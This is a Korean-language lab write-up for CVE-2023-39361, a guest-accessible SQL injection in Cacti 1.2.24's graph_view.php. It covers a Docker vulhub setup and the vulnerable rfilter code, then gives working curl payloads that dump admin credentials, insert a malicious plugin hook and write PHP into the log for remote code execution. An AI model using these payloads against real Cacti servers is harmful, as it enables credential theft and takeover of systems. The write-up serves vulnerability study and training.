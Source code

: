 # Cacti graph_view.php SQL Injection Leads to RCE (CVE-2023-39361)

화이트햇스쿨 2기 - [양채한(@c6an) ](https://github.com/c6an)


### 요약

Cacti(운영 모니터링 도구)은 1.2.24이하에서는  CVE-2023-39361의  CVSS 점수가 9.8인 위험 심각도 등급을 가지고 있습니다.

게스트 사용자가 'rfilter'매개변수로 SGQ인젝션 공격이 가능하도록 하는 graph_view.php에 취약점이 존재합니다.


참고문헌:

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## 환경 설정

vulhub레포에서 fork 진행 후 본인 레포 클론하기
```
git clone https://github.com/본안ID/vulhub.git
cd vulhub/cacti/CVE-2023-39361
```

Cacti 1.2.24 서버를 시작합니다.

```
docker compose up -d
```

 Cacti 인터페이스에 접속할 수 있습니다. `http://your-ip:8080`.
  ![](1.png)
  기본 사용자 계정은 admin/admin입니다.
  성공 페이지가 나타날 때까지 "다음" 버튼을 반복해서 클릭하세요.
  
![](2.png)
설치 시작
![](3.png)
![](4.png)

CVE 취약점은 "로그인 없이" 접근하는 경우 발생.
guest유저가 해커인 상황을 위해서 `로그인` -> `Autentication`-> `guest`활성화 
Guest접근 권한을 열어줍니다.

![](5.png)

## 취약점 설명

취약점은 `graph_view.php` 에 존재합니다.
게스트 사용자는 인증 없이 `graph_view.php`에 접근이 가능하며, 활성화된 상태에서 취약점 악용 시 SQL인젝션 공격이 가능합니다.

`grow_right_pane_tree`함수는 `graph_view.php`파일에서 호출되는 취약점을 포합하고 있습니다. 사용자 입력은 `tree_content` 케이스 에서 `html_validate_tree_vars` 함수 를 통해 검증됩니다.

이후 `tree_id` 매개변수가 0보다 큰 경우 `grow_right_pane_tree` 함수가 호출됩니다 

![](v0.png)
![](1v.png)
![](v.png)
rfilter는 `grow_right_pane_tree`함수에서 바로 SQL퀴리 안에 들어가서 정규 검색 조건으로 사용합니다.

`graph_view.php`의 `html_validate_tree_vars` 함수가 정규 문접에 맞는 지 검사해주지만, SQL코드는 검사를 하지 않습니다.


```
function grow_right_pane_tree($tree_id, $leaf_id, $host_group_data) {
	// ...
	if (($leaf_type == 'header') || (empty($leaf_id))) {
		$sql_where = '';

		if (get_request_var('rfilter') != '') {
			$sql_where .= ' (gtg.title_cache RLIKE "' . get_request_var('rfilter') . '" OR gtg.title RLIKE "' . get_request_var('rfilter') . '")';
		}
		// ...

		$graph_list = get_allowed_tree_header_graphs($tree_id, $leaf_id, $sql_where);

}
```
## POC
SQL인젝션 관리자 정보를 탈취합니다.
```
curl "http:/your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa\"%20OR%20\"\"=\"((\"))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23"
```
graph_view.php 엔드포인트에 요청을 보내세요.

퀴리를 삽입합니다.
```
curl "http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa\"%20OR%20\"\"=\"((\"));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(\".\",\"login_before\",\"../log/cacti.log\",1);%23"

```
해당 파일을 가리키는 새로운 플러그인 후크를 추가합니다

로그에 PHP 코드를 작성합니다.
```
curl "http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa\"%20OR%20\"\"=\"((\"))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,\"<?php%20phpinfo();?>\",0x7e),null),8,9,10%23"

```
웹브라우저에서 `http://your-ip:8080` 접속 시 PHPINFO 함수가 실행되어 로그인 페이지에 액세스할 때 표시되며 원격 코드 실행이 성공적으로 이루어졌음을 확인합니다.

![](6.png)
